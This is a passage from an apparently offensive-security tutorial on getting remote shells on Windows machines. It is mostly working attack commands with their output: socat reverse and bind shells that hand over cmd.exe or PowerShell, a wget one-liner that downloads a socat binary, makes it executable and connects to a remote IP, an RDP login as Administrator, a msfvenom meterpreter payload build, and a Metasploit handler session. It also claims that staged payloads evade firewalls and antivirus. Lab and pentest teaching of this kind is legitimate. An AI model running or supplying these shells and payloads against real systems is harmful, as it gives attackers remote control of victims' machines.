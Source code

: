 Activate the `reverse shell` from the target machine.
{% capture code %}{% raw %}socat TCP:<target-ip>:443 EXEC:"cmd.exe",pty,stderr,sigint,setsid,sane{% endraw %}{% endcapture %} {%include code.html code=code %}

The `reverse shell` in attacking machine would have spawned at the `socat` listener.
{% capture code %}{% raw %}Microsoft Windows [Version 10.0.17763.1637]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\>{% endraw %}{% endcapture %} {%include code.html code=code %}


### Bind Socat shell - Windows

`Socat` can be installed from distribution repo or a standalone binary can be downloaded and used. The links for standalone binaries for linux is [here](https://github.com/andrew-d/static-binaries/blob/master/binaries/linux/x86_64/socat?raw=true){:target="_blank"} and windows is [here](https://sourceforge.net/projects/unix-utils/files/socat/){:target="_blank"}.

`Socat` shell is stabilised and sanitised by default and does not need additional configurations after gaining `shell`.

Use `xfreerdp` to test rdp connection with newly created user.
{% capture code %}{% raw %}xfreerdp /dynamic-resolution +clipboard /cert:ignore /v:<target-ip> /u:Administrator /p:'<password>'{% endraw %}{% endcapture %} {%include code.html code=code %}

Create a `socat` listener in target machine.
{% capture code %}{% raw %}socat TCP-L:4430 EXEC:"powershell.exe",pipes{% endraw %}{% endcapture %} {%include code.html code=code %}

Activate the `bind shell` from the attacking machine.
{% capture code %}{% raw %}wget -q https://github.com/andrew-d/static-binaries/raw/master/binaries/linux/x86_64/socat -O /tmp/socat; chmod +x /tmp/socat; /tmp/socat TCP:10.10.91.162:4430 FILE:`tty`,raw,echo=0{% endraw %}{% endcapture %} {%include code.html code=code %}

The `bind shell` in target machine would have spawned at the `socat` activator.
{% capture code %}{% raw %}Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\>{% endraw %}{% endcapture %} {%include code.html code=code %}


### Msfvenom meterpreter shell - Windows

Use `msfvenom` to create an `exe` payload.
{% capture code %}{% raw %}msfvenom -p windows/x64/meterpreter/reverse_tcp -f exe -o shell.exe LHOST=<target-ip> LPORT=443{% endraw %}{% endcapture %} {%include code.html code=code %}

An output similar to below will be obtained.
{% capture code %}{% raw %}[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 510 bytes
Final size of exe file: 7168 bytes
Saved as: shell.exe{% endraw %}{% endcapture %} {%include code.html code=code %}

Use `msfconsole` to create `multi/handler` and load the payload `linux/x64/shell/reverse_tcp`, which is `staged`, and hence can evade firewalls and antivirus. The `exploit` is given in background, and hence sessions will not be loaded by default.
{% capture code %}{% raw %}msf5 > use multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf5 exploit(multi/handler) > set LHOST <target-ip>
LHOST => <target-ip>
msf5 exploit(multi/handler) > set LPORT 443
LPORT => 443
msf5 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_tcp
payload => windows/x64/meterpreter/reverse_tcp
msf5 exploit(multi/handler) > exploit -j
[*] Exploit running as background job 3.